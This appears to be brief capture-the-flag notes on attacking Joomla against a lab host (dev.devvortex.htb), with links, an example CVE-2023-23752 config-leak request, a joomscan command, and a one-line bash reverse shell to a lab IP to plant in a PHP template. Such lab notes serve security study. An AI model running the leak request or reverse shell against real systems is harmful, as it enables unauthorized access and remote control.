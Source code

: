 ## Joomla


get Version

Hacktricks infos: https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla

Brute Force password: (did work this try)
https://github.com/ajnik/joomla-bruteforce

### CVE-2023-23752: 
Infos and explanation https://vulncheck.com/blog/joomla-for-rce

Example Test Link: http://dev.devvortex.htb/api/index.php/v1/config/application?public=true


```shell
This in php template to connect with netcat:

exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.190/8001 0>&1'")

```

### JoomScan
So now we will use joomscan tool. JoomScan is a tool designed for penetration testing of Joomla CMS websites. By default this tool already come pre-installed in the system. To run the joomscan we have to be in that directory where joomscan is.

perl joomscan.pl -u http://dev.devvortex.htb